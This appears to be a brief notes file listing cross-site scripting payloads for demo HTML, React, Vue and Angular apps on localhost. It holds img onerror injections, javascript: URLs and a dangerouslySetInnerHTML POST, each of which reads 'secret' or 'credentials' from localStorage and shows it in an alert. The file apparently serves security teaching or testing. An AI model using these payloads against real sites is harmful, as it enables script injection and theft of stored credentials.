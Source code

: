 ### HTML Application

- Text box: `<img src=empty.gif onerror=alert(localStorage.getItem('secret')); />`
- Dropdown: `<img src=empty.gif onerror=alert(localStorage.getItem('secret')); />`
- Checkbox: `<img src=empty.gif onerror=alert(localStorage.getItem('secret')); />`
- Radio: `<img src=empty.gif onerror=alert(localStorage.getItem('secret')); />`
- URL: `http://127.0.0.1:3000/comments.html?server-time=%3Cimg%20src=empty.gif%20onerror=alert(localStorage.getItem(%27secret%27));%20/%3E`

### React Application

- Evaluate: `javascript:alert(localStorage.getItem('credentials'))`
- POST call:
```
fetch("http://localhost:3000/comment", {
  method: "POST",
  headers: {"Content-Type": "application/json"},
  body: JSON.stringify({ dangerouslySetInnerHTML: { __html: "<img src=empty.gif onerror=alert('test') />" } }),
});
```

### Vue Application

- Link: `javascript:alert(localStorage.getItem('credentials'))`
- Evaluate: `javascript:alert(localStorage.getItem('credentials'))`

- v-html

### Angular Application
- Evaluate: `javascript:alert(localStorage.getItem('credentials'))`
